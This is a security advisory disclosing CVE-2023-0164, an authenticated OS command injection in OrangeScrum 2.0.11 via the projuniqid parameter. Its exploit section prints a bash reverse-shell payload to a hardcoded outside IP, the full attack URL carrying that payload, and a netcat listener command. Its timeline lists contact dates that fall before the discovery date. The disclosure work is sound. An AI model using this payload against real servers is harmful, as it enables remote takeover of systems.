 ```yaml
---
slug: advisories/queen/
title: OrangeScrum 2.0.11 - OS Command Injection via projuniqid
authors: Carlos Bello
writer: cbello
codename: queen
product: OrangeScrum 2.0.11
date: 2023-01-16 12:00 COT
cveid: CVE-2023-0164
severity: 9.9
description: OrangeScrum 2.0.11 - OS Command Injection via projuniqid
keywords: Fluid Attacks, Security, Vulnerabilities, Orangescrum, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                          |
| --------------------- | -------------------------------------------------------- |
| **Name**              | OrangeScrum 2.0.11 - OS Command Injection via projuniqid |
| **Code name**         | [Queen](https://en.wikipedia.org/wiki/Queen_(band))      |
| **Product**           | OrangeScrum                                              |
| **Affected versions** | 2.0.11                                                   |
| **State**             | Public                                                   |
| **Release Date**      | 2023-01-16                                               |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | OS Command Injection                                                                                   |
| **Rule**              | [404. OS Command Injection](https://docs.fluidattacks.com/criteria/vulnerabilities/404)                |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 9.9                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-0164](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0164)                          |

## Description

OrangeScrum version 2.0.11 allows an authenticated external attacker to
execute arbitrary commands on the server. This is possible because the
application injects an attacker-controlled parameter into a system
function.

## Vulnerability

This vulnerability occurs because the application injects an attacker-controlled
parameter into a system function.

## Exploitation

To exploit this vulnerability, we only need to send the following malicious HTML
code to an application user.

### Exploit

To exploit this vulnerability, we just need to send the malicious command we want
the server to execute through the projuniqid parameter using the `$()` syntax.

```bash
$(bash -i+>& /dev/tcp/67.205.165.158/3000 0>&1)
```

```txt
https://retr02332bughunter.orangescrum.com/log_times/download_pdf_timelog?projuniqid=$(bash+-i+>%26+/dev/tcp/67.205.165.158/3000+0>%261)&usrid=&date=&strddt=&enddt=&dt_format=d/m/y&checkedFields=date,usr_name,task_no,task_title,hours,description,start,end,break,billable
```

Thus, we will only have to execute the command `nc -lvp 3000` on the attacker's malicious
server to receive the reverse shell from the victim server.

## Evidence of exploitation

![vulnerability-code-orangescrum](https://user-images.githubusercontent.com/51862990/211672912-1eb574f6-20bb-475d-8303-f443ba156163.png)

![vulnerability-orangescrum](https://user-images.githubusercontent.com/51862990/211672802-e1fd6b44-1f5a-414f-8f27-5fbba9d40267.png)

![explotation-orangescrum](https://user-images.githubusercontent.com/51862990/211674614-e71238c4-0fe3-4029-bb71-15c35c46e0e2.gif)

![exploit-success-orangescrum](https://user-images.githubusercontent.com/51862990/211672619-a0006c75-3f39-4cfd-9791-af389d8a37f2.png)

## Our security policy

We have reserved the ID CVE-2023-0164 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: OrangeScrum 2.0.11

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Orangescrum/orangescrum/>

## Timeline

<time-lapse
  discovered="2023-01-10"
  contacted="2022-01-10"
  replied="2022-01-10"
  confirmed="2022-01-10"
  patched=""
  disclosure="2023-01-16">
</time-lapse>
